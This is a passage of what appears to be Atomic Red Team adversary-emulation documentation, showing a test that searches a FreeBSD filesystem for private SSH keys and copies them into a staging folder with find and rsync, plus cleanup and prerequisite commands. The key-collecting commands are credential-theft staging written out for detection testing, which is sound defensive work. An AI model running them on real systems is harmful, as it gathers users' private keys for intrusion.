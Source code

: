 ```sh
rm -rf #{output_folder}
```

<br/>
<br/>

## Atomic Test #6 - Copy Private SSH Keys with rsync (freebsd)

Copy private SSH keys on a FreeBSD system to a staging folder using the `rsync` command.

**Supported Platforms:** Linux

**auto_generated_guid:** 922b1080-0b95-42b0-9585-b9a5ea0af044

#### Inputs:

| Name          | Description                                              | Type | Default Value    |
| ------------- | -------------------------------------------------------- | ---- | ---------------- |
| search_path   | Path where to start searching from.                      | path | /                |
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging |

#### Attack Commands: Run with `sh`!

```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec rsync -R {} #{output_folder} \;
```

#### Cleanup Commands:

```sh
rm -rf #{output_folder}
```

#### Dependencies: Run with `sh`!

##### Description: Check if rsync is installed.

##### Check Prereq Commands:

```sh
if [ ! -x "$(command -v rsync)" ]; then exit 1; else exit 0; fi;
```

##### Get Prereq Commands:

```sh
(which pkg && pkg install -y rsync)
```

<br/>
<br/>

## Atomic Test #7 - Copy the users GnuPG directory with rsync
